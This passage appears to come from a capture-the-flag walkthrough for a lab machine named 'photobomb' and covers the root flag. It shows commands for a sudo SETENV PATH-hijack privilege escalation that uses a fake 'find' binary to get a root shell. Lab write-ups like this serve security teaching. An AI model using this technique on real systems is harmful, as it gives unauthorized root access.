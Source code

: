 At this point I was able to obtain the user flag

## Root Flag

This privilege escalation is easy, look into the sudo config and you will find something which seems to be a fatal flaw.

```shell
wizard@photobomb:~/photobomb$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

The user is allowed to execute '/opt/cleanup.sh' without any password. And by looking at it we can see another huge blunder.

```shell
wizard@photobomb:~/photobomb$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

find is not using an absolute path so we can manipulate the $PATH variable to get root despite the secure_path option in sudo.

First, create a malicious find binary and give it execute permissions, for instance

```shell
wizard@photobomb:/dev/shm$ cat > find
su
^C
wizard@photobomb:/dev/shm$ chmod a+x find
```

Now change the $PATH variable by adding your path

```shell
wizard@photobomb:/dev/shm$ export PATH=$PWD:$PATH
```

And now execute the script as sudo but make sure to overwrite the $PATH like this so you bypass the secure_path option for sudo

```shell
wizard@photobomb:/dev/shm$ sudo PATH=$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# whoami
root
```

and that's all! , thank you for reading.

